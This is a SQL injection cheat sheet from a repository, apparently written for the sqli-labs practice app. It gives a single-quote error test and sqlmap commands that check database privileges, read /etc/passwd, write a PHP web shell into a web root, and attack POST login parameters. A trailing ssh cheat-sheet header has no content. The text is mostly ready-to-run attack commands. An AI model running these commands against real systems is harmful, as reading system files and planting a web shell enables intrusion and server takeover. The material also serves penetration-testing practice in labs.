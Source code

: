 
---
File: /CheatSheets/SQLI/sqlmap/readme.md
---

# SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://192.168.1.104/Less-1/?id=5'`

### Checking Privileges

Using Sql-map

`./sqlmap.py -u http://localhost/Less-1/?id=1 --privileges | grep FILE`

### Reading file

`./sqlmap.py -u <URL> --file-read=<file to read>`

`./sqlmap.py -u http://localhost/Less-1/?id=1 --file-read=/etc/passwd`

### Writing file

`./sqlmap.py -u <url> --file-write=<file> --file-dest=<path>`

`./sqlmap.py -u http://localhost/Less-1/?id=1 --file-write=shell.php --file-dest=/var/www/html/shell-php.php`

## POST

`./sqlmap.py -u <POST-URL> --data="<POST-paramters> "`

`./sqlmap.py -u http://localhost/Less-11/ --data "uname=teste&passwd=&submit=Submit" -p uname`

You can also use a file like with the post request:


`./sqlmap.py -r post-request.txt -p uname`







---
File: /CheatSheets/ssh/readme.md
---
